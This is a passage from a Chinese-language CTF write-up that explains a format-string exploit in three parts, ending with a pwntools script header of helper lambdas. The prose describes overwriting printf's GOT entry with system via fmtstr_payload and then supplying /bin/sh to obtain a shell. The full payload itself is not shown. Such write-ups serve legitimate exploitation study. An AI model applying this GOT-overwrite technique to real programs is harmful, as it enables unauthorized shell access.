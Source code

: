[![](assets/1701612281-86e99487895ebb6b7f12c0b30b2dc788.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224249-5ddf3e0a-2579-1.png)

从三部分分析exp

*   第一部分，这是经过测试出来的，

[![](assets/1701612281-cabab94f55099e47f43d6f97b4d5c58f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230718224254-61099206-2579-1.png)

这里第一部分经过搜集资料知道了这里是无关字节，可以用**\\xff\\x25**表示无用字节码，然后后面4个字节就是我们需要的printf的got表地址

*   第二部分，这里也是测试出来的，跟上面同理，只不过没有了无用字节码了
*   第三部分，这里是用了pwntools中的fmtstr\_payload函数，因为我们实际上调用的还是printf@got，就把printf@got的地址改为了system的地址，从而执行system,之后我们再手动传参一个/bin/sh从而getshell

exp:

```plain
#! /usr/bin/env python 
# -*- coding: utf-8 -*- 
from pwn import *
import binascii
context.log_level='debug'
context.arch='i386'

s       = lambda data               :p.send(str(data))
sa      = lambda delim,data         :p.sendafter(str(delim), str(data))
sl      = lambda data               :p.sendline(data)
sla     = lambda delim,data         :p.sendlineafter(str(delim), str(data))
r       = lambda num                :p.recv(num)
ru      = lambda delims, drop=True  :p.recvuntil(delims, drop)
itr     = lambda                    :p.interactive()
uu32    = lambda data               :u32(data.ljust(4,b'\x00'))
uu64    = lambda data               :u64(data.ljust(8,b'\x00'))
leak    = lambda name,addr          :log.success('{} = {:#x}'.format(name, addr))
l64     = lambda      :u64(p.recvuntil("\x7f")[-6:].ljust(8,b"\x00"))
l32     = lambda      :u32(p.recvuntil("\xf7")[-4:].ljust(4,b"\x00"))
context.terminal = ['gnome-terminal','-x','sh','-c']
```